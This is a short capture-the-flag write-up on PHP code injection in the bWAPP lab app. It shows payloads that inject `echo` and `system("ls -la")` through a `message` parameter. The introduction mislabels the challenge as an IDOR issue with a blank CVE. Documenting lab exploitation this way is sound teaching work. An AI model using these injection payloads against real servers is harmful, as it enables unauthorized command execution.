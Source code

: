 # PHP Code Injection
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges, which contains tasks based on the ***IDOR vulnerability*** (CVE )

***SECURITY LEVELS COVERED***
- Low
- Medium
# Target
---

![[PhpiTarget.png]]


# Functionality
---

The application reflects text passed through the `message` parameter:

![[PhpiFunction.png]]


# Exploitation
---

Testing a PoC PHP injection payload:

``` PHP
?message=lol; echo "Hacked!"
```

![[PhpiPoc.png]]

The application is vulnerable to PHP code injection!

Using PHP `system()` based payloads it is possible to execute commands reading sensitive files and performing other actions on the server.

## Payload

``` PHP
?message=lol; system("ls -la")
```

This will list all files in the current directory with their permissions:

![[PhpiSucess.png]]